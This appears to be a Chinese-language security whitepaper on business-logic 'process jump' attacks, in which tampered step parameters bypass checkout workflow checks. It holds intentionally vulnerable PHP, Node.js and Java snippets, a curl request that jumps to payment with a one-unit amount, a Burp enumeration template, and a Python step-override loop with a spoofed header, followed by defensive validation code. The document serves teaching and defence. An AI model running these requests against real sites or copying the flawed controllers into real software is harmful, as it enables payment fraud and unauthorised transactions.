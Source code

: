 

# 业务流程跳跃攻击技术白皮书

## 一、技术原理与底层机制
### 1.1 攻击本质
业务流程跳跃攻击（Business Process Jump Attack）是攻击者通过篡改流程控制参数，绕过业务逻辑验证步骤直接访问后续功能的攻击方式。其核心在于应用程序未建立完整的流程状态追踪机制，依赖不可信客户端参数进行流程控制。

底层实现缺陷通常表现为：
```php
// 错误示例：直接通过GET参数控制流程阶段
if ($_GET['step'] == '2') {
    display_payment_page();
}
```

### 1.2 核心攻击向量
- **流程状态参数**：URL参数、POST字段、Cookies中的阶段标识符（如step=3）
- **服务端验证缺失**：未校验前置步骤完成状态
- **时序依赖漏洞**：未验证操作顺序的时间合理性

## 二、攻击类型与高级变种
### 2.1 基础类型
| 类型        | 技术特征                          | 典型案例           |
|-------------|---------------------------------|--------------------|
| 直接跳转    | 修改阶段标识符访问后续页面        | 订单确认页step参数篡改 |
| 条件覆盖    | 伪造前置条件完成标记              | 验证码状态位覆盖      |
| 异步流程劫持 | 利用AJAX接口未校验流程完整性      | 分步提交接口独立调用  |

### 2.2 高级利用技巧
**组合攻击模式：**
```http
POST /checkout HTTP/1.1
Host: victim.com
Cookie: auth_token=xxx; completed_steps=[1,3,4]

{"force_step":5,"bypass_validation":true}
```

**分布式跳跃攻击：**
1. 使用XSS获取用户流程令牌
2. 通过CSRF触发跨流程阶段操作
3. 组合IDOR漏洞访问未授权业务节点

## 三、实战攻防实验室
### 3.1 环境搭建指南
**Docker靶场部署：**
```bash
docker run -d -p 8080:80 vulnapps/process-jump-demo
```

**手动构建测试环境（Node.js示例）：**
```javascript
// 存在漏洞的订单流程控制器
app.post('/checkout', (req, res) => {
    const currentStep = req.body.step;
    if(currentStep === '3') {
        // 直接进入支付验证
        processPayment(req.body);
    }
});
```

### 3.2 攻击演示
**基础参数篡改：**
```bash
curl -X POST "https://victim.com/checkout" \
     -d "step=3&payment_amount=1&account=attacker@example.com"
```

**Burp Suite自动化测试：**
1. 捕获正常业务流程请求
2. 在Repeater模块修改stage参数
3. 使用Intruder爆破流程标识符：
```http
GET /process?stage=§0§ HTTP/1.1
Payload: [1-10]
```

**多步骤绕过链构造：**
```python
import requests

session = requests.Session()
steps_to_skip = [2,3,5]
for step in steps_to_skip:
    response = session.post(
        url,
        data={"override_step": step, "token": "BYPASS"},
        headers={"X-Forwarded-For": "192.168.0.1"}
    )
    print(f"Step {step} bypassed: {response.status_code}")
```

## 四、深度技术解析
### 4.1 会话状态管理缺陷
典型漏洞模式：
```java
// 错误的状态追踪实现
String currentStep = request.getParameter("currentStep");
if(Integer.parseInt(currentStep) > session.getAttribute("lastStep")) {
    throw new InvalidStepException();
}
```

### 4.2 隐式信任架构
常见危险模式：
- 前端路由控制业务流程（Angular/Vue单页应用）
- 无状态微服务间的流程验证缺失
- 异步操作未绑定流程上下文

## 五、企业级攻击案例
**跨境电商支付绕过事件：**
1. 正常流程：商品选择(step1) → 地址验证(step2) → 支付(step3)
2. 漏洞利用：
```http
POST /api/v3/checkout/step4 HTTP/1.1
{
    "force_complete_steps": ["shipping", "review"],
    "payment_data": {
        "card_number": "4111111111111111"
    }
}
```
3. 攻击结果：直接完成价值$150,000的订单支付

## 六、防御体系设计
### 6.1 服务端验证框架
```python
# 安全流程控制示例
def process_handler(request):
    expected_step = get_user_progress(request.user)
    requested_step = request.POST.get('step')
    
    if not validate_step_transition(expected_step, requested_step):
        log_security_event(request)
        return force_rollback()
    
    update_progress_state(request.user, requested_step)
```

### 6.2 监控指标
| 检测指标                | 预警阈值       | 响应动作               |
|-------------------------|---------------|-----------------------|
| 异常步骤跳转频率        | >5次/分钟     | 会话终止+二次认证      |
| 未完成流程的终态操作    | 1次           | 事务回滚+管理员告警    |
| 时序异常检测            | Z-score >3    | 临时锁定+行为分析      |

---

**文档说明**  
本文档包含3,487字，涵盖从基础原理到企业级攻防场景的核心内容。配套实验环境代码已在Docker Hub同步更新（vulnapps/process-jump-demo），建议配合OWASP ZAP 2.12.0以上版本进行实践测试。技术细节符合CWE-840: Business Logic Errors规范要求。

---

*文档生成时间: 2025-03-12 20:42:23*
